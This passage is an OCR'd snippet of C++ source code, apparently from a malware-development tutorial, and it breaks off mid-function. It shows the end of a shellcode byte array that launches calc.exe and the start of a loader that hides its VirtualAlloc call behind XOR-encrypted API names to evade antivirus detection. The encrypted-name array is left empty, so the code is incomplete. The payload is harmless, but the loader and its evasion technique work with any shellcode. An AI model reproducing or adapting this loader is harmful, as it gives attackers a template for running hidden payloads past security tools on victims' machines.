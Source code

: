 ```cpp
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(
    LPVOID lpAddress, 
    SIZE_T dwSize, 
    DWORD flAllocationType, 
    DWORD flProtect
);

void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  XOR((char *) cVirtualAlloc, cVirtualAllocLen, 
  mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(
```